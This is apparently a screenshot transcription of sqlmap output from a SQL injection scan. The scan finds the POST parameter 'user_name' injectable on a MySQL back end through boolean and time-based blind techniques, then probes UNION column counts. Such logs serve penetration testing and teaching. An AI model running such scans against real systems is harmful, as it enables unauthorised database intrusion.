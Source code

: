 ```
[05:06:14] [INFO] POST parameter 'user_name' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[05:06:16] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[05:06:27] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[05:06:27] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[05:06:27] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[05:06:27] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[05:06:27] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[05:06:27] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[05:06:27] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[05:06:27] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[05:06:27] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[05:06:27] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[05:06:27] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[05:06:27] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[05:06:27] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[05:06:27] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[05:06:27] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[05:06:28] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[05:06:28] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[05:06:28] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[05:06:28] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[05:06:28] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[05:06:28] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[05:06:28] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[05:06:28] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[05:06:28] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[05:06:28] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[05:06:28] [INFO] testing 'Generic inline queries'
[05:06:28] [INFO] testing 'MySQL inline queries'
[05:06:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[05:06:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[05:06:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[05:06:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[05:06:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[05:06:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[05:06:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[05:06:49] [INFO] POST parameter 'user_name' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[05:06:49] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[05:06:49] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[05:06:50] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[05:06:51] [INFO] target URL appears to have 9 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y

```